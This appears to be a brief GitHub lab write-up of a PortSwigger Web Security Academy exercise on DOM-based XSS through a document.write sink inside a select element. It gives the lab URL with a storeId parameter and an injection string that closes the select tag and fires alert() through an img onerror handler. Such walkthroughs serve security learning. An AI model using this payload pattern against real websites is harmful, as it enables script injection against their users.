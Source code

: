 **DOM XSS in document.write sink using source location.search inside a select element**

Our script: Select from arrays and if that array is equal to the select display that
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/53198bc6-f118-4a9c-accd-bdc65a7e56a3)


Our payload
```
https://0af9006b044cfc56812f73a3002000ca.web-security-academy.net/product?productId=14&storeId=viet
```

We added a new productid to our array
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/87305e15-7609-450d-89db-8ead037fa886)





To break out of the select element by closing the select tag 
```
</select>
```

Than include a
```
viet</select><img src ="1" onerror="alert()">
```
